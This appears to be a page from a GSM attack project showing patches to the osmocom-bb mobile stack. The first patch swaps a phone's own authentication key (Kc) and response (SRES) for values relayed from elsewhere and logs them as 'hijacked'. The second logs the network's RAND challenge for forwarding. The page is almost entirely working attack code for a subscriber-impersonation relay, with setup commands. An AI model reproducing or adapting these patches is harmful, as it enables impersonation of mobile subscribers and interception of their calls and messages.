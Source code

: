 ```patch
diff -ru osmocom-bb/src/host/layer23/src/mobile/subscriber.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c
--- osmocom-bb/src/host/layer23/src/mobile/subscriber.c	2022-08-30 15:38:53.125893570 +0200
+++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c	2022-08-30 15:35:55.476598075 +0200
@@ -30,6 +30,11 @@
 #include <osmocom/bb/common/osmocom_data.h>
 #include <osmocom/bb/common/networks.h>
 #include <osmocom/bb/mobile/vty.h>
+#include "server.h"
+#include "server2.h"
+#include "hex.h"
+#include "hex2.h"
+
 
 /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
  * if list is changed, the result is not written back to SIM */
@@ -945,14 +950,21 @@
 
 		/* store sequence */
 		subscr->key_seq = key_seq;
-		memcpy(subscr->key, vec->kc, 8);
+
 
 		LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
+                char *h4ck3d_kc;
+                h4ck3d_kc = catch_kc();
+                const unsigned char *my_h4ck3d_kc=hex2ascii(h4ck3d_kc);
+		char *h4ck3d_sres;
+		h4ck3d_sres = catch_sres();
+        	const unsigned char *my_h4ck3d_sres=hex2ascii2(h4ck3d_sres);
+		memcpy(subscr->key, my_h4ck3d_kc, 8);
 		nmsg = gsm48_mmevent_msgb_alloc(GSM48_MM_EVENT_AUTH_RESPONSE);
-		if (!nmsg)
-			return -ENOMEM;
 		nmme = (struct gsm48_mm_event *) nmsg->data;
-		memcpy(nmme->sres, vec->sres, 4);
+        	memcpy(nmme->sres,my_h4ck3d_sres, 4);
+		LOGP(DMM, LOGL_INFO, "KC hijacked = %s\n",osmo_hexdump(my_h4ck3d_kc,8));
+		LOGP(DMM, LOGL_INFO, "SRES hijacked = %s\n",osmo_hexdump(my_h4ck3d_sres,4));
 		gsm48_mmevent_msg(ms, nmsg);
 
 		return 0;
```


## Genuine-MS (Kc Forwarding)
Patch osmocom-bb

```bash
git clone https://github.com/osmocom/osmocom-bb
git checkout fixeria/trxcon
```
```patch
diff -ru trx/src/host/layer23/src/mobile/gsm48_mm.c osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c
--- trx/src/host/layer23/src/mobile/gsm48_mm.c	2022-08-30 16:41:37.076916961 +0200
+++ osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c	2022-08-30 15:51:17.267099639 +0200
@@ -1651,6 +1651,7 @@
 	 */
 	if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
 		no_sim = 1;
+	LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (rand %s)\n", osmo_hexdump(ar->rand,16));	
 	gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);
```